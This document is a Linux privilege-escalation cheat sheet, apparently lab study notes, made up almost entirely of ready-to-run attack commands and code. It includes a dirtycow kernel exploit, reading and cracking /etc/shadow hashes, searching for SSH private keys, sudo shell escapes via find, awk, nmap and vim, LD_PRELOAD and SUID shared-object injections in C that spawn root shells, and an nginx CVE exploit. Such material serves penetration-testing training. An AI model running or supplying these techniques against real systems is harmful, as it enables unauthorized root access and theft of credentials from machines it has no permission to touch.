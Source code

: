 # Linux privesc

### Privilege Escalation - Kernel Exploits
- Download `linux-exploit-suggester.sh` script: `/linux-exploit-suggester/linux-exploit-suggester.sh`
- Compile and run `dirtycow` exploit:
```bash
gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w
./c0w
```
- Change password: `passwd`
- Check user privileges: `id`

### Privilege Escalation - Stored Passwords (Config Files)**
- View VPN configuration: `cat /home/user/myvpn.ovpn`
- Note the "auth-user-pass" directive value in the config.
- View OpenVPN auth file: `cat /etc/openvpn/auth.txt`
- Search for passwords in Irssi config: `cat /home/user/.irssi/config | grep -i passw`

### Privilege Escalation - Stored Passwords (History)
- Search for passwords in bash history: `cat ~/.bash_history | grep -i passw`

### Privilege Escalation - Weak File Permissions
- List shadow file permissions: `ls -la /etc/shadow`
- View `/etc/passwd` file: `cat /etc/passwd`
- View `/etc/shadow` file: `cat /etc/shadow`
- Unshadow password file:
```bash
unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt
```
- Use hashcat to crack passwords:
```bash
hashcat -m 1800 unshadowed.txt rockyou.txt -O
```

### Privilege Escalation - SSH Keys
- Search for authorized_keys and id_rsa files:
```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
```
- Set appropriate permissions on id_rsa: `chmod 600 id_rsa`
- Connect using SSH key: `ssh -i id_rsa root@<ip>`

### Privilege Escalation - Sudo (Shell Escaping)
- List sudo permissions: `sudo -l`
- Perform one of the shell escaping techniques:
- Execute nano with a shell:
  ```
  sudo find /bin -name nano -exec /bin/sh \;
  ```
- Use `awk` to spawn a shell:
  ```
  sudo awk 'BEGIN {system("/bin/sh")}'
  ```
- Create an Nmap script for shell execution:
  ```
  echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
  ```
- Execute a shell through sudo vim:
  ```
  sudo vim -c '!sh'
  ```

**Privilege Escalation - Sudo (Abusing Intended Functionality)**
- List sudo permissions: `sudo -l`
- Exploit a program that doesn't exist in ctfobins:
sudo apache2 -f /etc/shadow
- Provide the pasted root hash and crack it with John the Ripper:
echo '[Pasted Root Hash]' > hash.txt
john --wordlist=/usr/share/wordlists/nmap.lst hash.txt

**Privilege Escalation - Sudo (LD_PRELOAD)**
- List sudo permissions: `sudo -l`
- Create a shared object for privilege escalation:
1. Open a text editor and type x.c:
  ```
  #include <stdio.h>
  #include <sys/types.h>
  #include <stdlib.h>
  void _init() {
      unsetenv("LD_PRELOAD");
      setgid(0);
      setuid(0);
      system("/bin/bash");
  }
  ```
- Compile and load the shared object:
  ```
  gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
  sudo LD_PRELOAD=/tmp/x.so apache2
  ```

**Privilege Escalation - SUID (Shared Object Injection)**
- Find SUID binaries: `find / -type f -perm -04000 -ls 2>/dev/null`
- Trace the `suid-so` binary to locate missing .so file:
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
- Create a shared object for privilege escalation:
mkdir /home/user/.config
cd /home/user/.config
- Create and compile a shared object (libcalc.c):
  ```c
  #include <stdio.h>
  #include <stdlib.h>
  static void inject() __attribute__((constructor));
  void inject() {
      system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
  }
  ```
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c

- Run the SUID binary to escalate privileges:
  ```
  /usr/local/bin/suid-so
  ```

**Privilege Escalation - SUID (Symlinks)**
- Identify installed nginx version: `dpkg -l | grep nginx`
- Exploit a known vulnerability (CVE-2016-1247):
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log

- Restart the system to trigger the exploit: `invoke-rc.d nginx rotate >/dev/null 2>&1`
